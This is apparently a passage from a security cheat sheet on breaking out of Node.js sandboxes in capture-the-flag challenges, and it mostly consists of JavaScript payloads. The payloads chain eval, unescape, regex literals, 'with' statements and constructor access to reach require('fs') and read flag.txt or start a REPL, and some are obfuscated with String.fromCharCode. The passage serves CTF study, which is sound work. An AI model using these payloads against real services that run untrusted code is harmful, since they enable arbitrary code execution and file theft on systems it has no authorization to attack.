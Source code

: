 ```javascript
// eval + unescape + regex
eval(unescape(/%2f%0athis%2econstructor%2econstructor(%22return(process%2emainModule%2erequire(%27fs%27)%2ereadFileSync(%27flag%2etxt%27,%27utf8%27))%22)%2f/))()
eval(unescape(1+/1,this%2evalueOf%2econstructor(%22process%2emainModule%2erequire(%27repl%27)%2estart()%22)()%2f/))

// use of with
with(console)log(123)
with(/console.log(1)/)with(this)with(constructor)constructor(source)()
  // Just replace console.log(1) to the real code, the code we want to run is:
  //return String(process.mainModule.require('fs').readFileSync('flag.txt'))

with(process)with(mainModule)with(require('fs'))return(String(readFileSync('flag.txt')))
with(k='fs',n='flag.txt',process)with(mainModule)with(require(k))return(String(readFileSync(n)))
with(String)with(f=fromCharCode,k=f(102,115),n=f(102,108,97,103,46,116,120,116),process)with(mainModule)with(require(k))return(String(readFileSync(n)))

  //Final solution
with(
  /with(String)
    with(f=fromCharCode,k=f(102,115),n=f(102,108,97,103,46,116,120,116),process)
      with(mainModule)
        with(require(k))
          return(String(readFileSync(n)))
  /)
with(this)
  with(constructor)
    constructor(source)()

// For more uses of with go to challenge misc/CaaSio PSE in
// https://blog.huli.tw/2022/05/05/en/angstrom-ctf-2022-writeup-en/#misc/CaaSio%20PSE
```

If **everything is undefined** before executing untrusted code (like in [**this writeup**](https://blog.huli.tw/2022/02/08/en/what-i-learned-from-dicectf-2022/#miscx2fundefined55-solves)) it's possible to generate useful objects "out of nothing" to abuse the execution of arbitrary untrusted code:

* Using import()

```javascript
// although import "fs" doesn’t work, import('fs') does.
import("fs").then(m=>console.log(m.readFileSync("/flag.txt", "utf8")))
```

* Accessing `require` indirectly

[According to this](https://stackoverflow.com/questions/28955047/why-does-a-module-level-return-statement-work-in-node-js/28955050#28955050) modules are wrapped by Node.js within a function, like this:

```javascript
(function (exports, require, module, __filename, __dirname) {
    // our actual module code
});
```
